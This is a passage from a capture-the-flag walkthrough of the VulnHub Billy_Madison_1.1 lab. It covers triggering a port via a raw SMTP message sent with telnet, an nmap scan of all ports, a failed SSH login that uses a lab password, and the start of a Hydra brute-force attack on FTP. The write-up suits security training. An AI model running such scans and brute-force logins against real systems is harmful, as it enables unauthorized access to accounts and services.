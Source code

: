 ## TCP/2525 (SMTP)
1. Send an email to Eric
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/loot/http]
	└─# telnet $ip 2525
	Trying 192.168.110.34...
	Connected to 192.168.110.34.
	Escape character is '^]'.
	220 BM ESMTP SubEthaSMTP null
	MAIL FROM: asdf
	250 Ok
	RCPT TO: eric@madisonhotels.com
	250 Ok
	DATA
	354 End data with <CR><LF>.<CR><LF>
	My kid will be a soccer player
	.
	250 Ok
	QUIT
	221 Bye
	Connection closed by foreign host.
	```
2. Check for newly opened ports
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/loot/http]
	└─# nmap $ip -v -p-

	PORT     STATE  SERVICE
	21/tcp   open   ftp
	22/tcp   open   ssh
	23/tcp   open   telnet
	69/tcp   open   tftp
	80/tcp   open   http
	137/tcp  closed netbios-ns
	138/tcp  closed netbios-dgm
	139/tcp  open   netbios-ssn
	445/tcp  open   microsoft-ds
	1974/tcp open   drp
	2525/tcp open   ms-v-worlds
	MAC Address: 08:00:27:D8:4B:D5 (Oracle VirtualBox virtual NIC)
	```
	- `TCP/1974`

## TCP/1974 (SSH)
1. Failed to SSH w/ eric:ericdoesntdrinkhisownpee
2. Earlier, Eric mentioned that we are able to login w/ his WiFi password, and it could be in Veronica's FTP Folder. Veronica is likely to use a password based off her name.

## TCP/21(FTP) - Bruteforce
1. Bruteforce FTP against `veronica.txt` wordlist
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/exploit]
	└─# hydra -l veronica -P veronica.txt -e nsr ftp://$ip
	Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
